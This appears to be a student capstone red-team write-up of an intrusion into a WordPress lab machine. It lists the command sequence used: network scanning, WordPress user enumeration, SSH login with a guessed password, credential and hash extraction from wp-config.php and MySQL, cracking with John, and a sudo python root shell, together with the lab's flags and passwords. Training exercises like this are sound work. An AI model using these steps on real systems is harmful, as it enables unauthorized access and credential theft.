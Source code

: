 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

[WordPress Screenshot](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/wordpress_port80_raven_security.PNG")

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

### Vulnerabilities

The following vulnerabilities were identified on each target:

#### CVE-1999-0013
Stolen credentials from SSH clients via ssh-agent program, allowing other local users to access remote accounts belonging to the ssh-agent user.

Guessed, weak, or default password: Access gained to user michael due to the weak or default password of “michael”.

#### CWE-521: Weak Password Requirements
The product does not require that users should have strong passwords, which makes it easier for attackers to compromise user accounts. Authentication mechanisms often rely on a memorized secret (also known as a password) to provide an assertion of identity for a user of a system. It is therefore important that this password be of sufficient complexity and impractical for an adversary to guess. The specific requirements around how complex a password needs to be depends on the type of system being protected. Selecting the correct password requirements and enforcing them through implementation are critical to the overall success of the authentication mechanism.

#### CWE-759: Use of a One-Way Hash without a Salt. 
The software uses a one-way cryptographic hash against an input that should not be reversible, such as a password, but the software does not also use a salt as part of the input. This makes it easier for attackers to pre-compute the hash value using dictionary attack techniques such as rainbow tables.
It should be noted that, despite common perceptions, the use of a good salt with a hash does not sufficiently increase the effort for an attacker who is targeting an individual password, or who has a large amount of computing resources available, such as with cloud-based services or specialized, inexpensive hardware. Offline password cracking can still be effective if the hash function is not expensive to compute; many cryptographic functions are designed to be efficient and can be vulnerable to attacks using massive computing resources, even if the hash is cryptographically strong. The use of a salt only slightly increases the computing requirements for an attacker compared to other strategies such as adaptive hash functions. See CWE-916 for more details.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data (listed in chronological order):

**Exploit**
- User michael used their username as their password
  - `wpscan –-url http://192.168.1.110/wordpress -eu`
  - [Users Identified](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Users Identified")
  - `ssh michael@192.168.1.110`
  - [login as michael](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Login_Michael")

**Flag #2**
-  Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
  - `cd /var/www`
  - `cat flag2.txt`
  - [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

**Flag #1**
- Flag #1 {b9bbcb33e11b80be759c4e844862482d}
  - `grep -RE flag html`
  - [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
  - `cat /var/www/html/wordpress/wp-config.php`
    - Password: R@v3nSecurity
  - [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
  - `mysql -u root -p`
  - `mysql> use wordpress;`
  - `mysql> select * from wp_users;`
  - Password: R@v3nSecurity
  - [user password hashes](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_wp_users.PNG "user password hashes")

**Flag #3**
- Flag #3 {afc01ab56b50591e7dccf93122770cd2} 
  - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")

**Exploit**
- Use John to crack the passwords and login as users.
- `nano wp_hashes.txt`
  - `michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0`
  - `steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
- `john wp_hashes.txt`
  - Steven: pink84
- [login as steven](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_steven.PNG "login as steven")

**Exploit**
- Spawn Shell → python sudo privileges
- `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
- [escalated privileges](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "escalated privileges")

**Flag #4**
- Flag #4 {715dea6c055b9fe3337544932f2941ce}
  - `cd ../..`
  - `cat flag4.txt`
  - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")

